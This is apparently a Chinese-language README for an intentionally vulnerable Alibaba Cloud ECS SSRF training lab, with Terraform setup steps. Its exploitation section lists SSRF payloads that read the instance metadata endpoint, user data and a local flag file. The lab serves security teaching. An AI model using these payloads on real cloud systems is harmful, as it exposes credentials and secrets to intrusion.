



# 阿里云 ECS SSRF 漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建阿里云 ECS SSRF 漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 SSRF 漏洞获取到 ECS 上的元数据、用户数据等信息。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aliyun/ecs/ecs_ssrf/
```

配置阿里云访问凭证

```shell
aliyun configure
```

> 在阿里云控制台的 [AccessKey 页面](https://ram.console.aliyun.com/manage/ak) 可以创建和查看您的 AccessKey

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可



环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可。

## 漏洞利用

在存在 SSRF 漏洞的 ECS 上，我们可以利用 SSRF 读取 ECS 的元数据、用户数据等信息。

读取元数据

```shell
http://100.100.100.200/latest/meta-data/
```



读取用户数据

> 前提是目标已经配置了用户数据，不然会返回 404

```shell
http://100.100.100.200/latest/user-data/
```



在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用 SSRF 读取这个文件

```shell
file:///flag69152201.txt
```


成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
